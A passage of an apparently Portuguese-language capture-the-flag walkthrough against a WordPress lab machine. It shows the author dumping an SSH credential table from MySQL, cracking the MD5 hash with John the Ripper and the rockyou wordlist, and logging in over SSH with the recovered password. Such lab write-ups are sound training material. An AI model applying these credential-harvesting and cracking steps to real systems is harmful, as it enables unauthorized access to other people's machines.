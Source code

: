 ```
```

Dentro do mysql:
```
> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| wordpress          |
+--------------------+

> use wordpress
> show tables;
+-----------------------+
| Tables_in_wordpress   |
+-----------------------+
| host_ssh_cred         |
| wp_commentmeta        |
| wp_comments           |
| wp_links              |
| wp_options            |
| wp_postmeta           |
| wp_posts              |
| wp_term_relationships |
| wp_term_taxonomy      |
| wp_termmeta           |
| wp_terms              |
| wp_usermeta           |
| wp_users              |
+-----------------------+

> SELECT * FROM host_ssh_cred;
+-------------------+----------------------------------+
| id                | pw                               |
+-------------------+----------------------------------+
| hummingbirdscyber | e10adc3949ba59abbe56e057f20f883e |
+-------------------+----------------------------------+
```

A senha está em md5, jogando ela no john para tentar quebrar, tenho o seguinte resultado:
```
$ echo -n "e10adc3949ba59abbe56e057f20f883e" >> hashtest
$ john --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-MD5 hashtest
(...)
123456           (?)
(...)
```

Com usuário e senha podemos fazer login via ssh e tentar escalar privilégios para root
```
$ ssh hummingbirdscyber@192.168.11.9
hummingbirdscyber@192.168.11.9's password: 123456
```

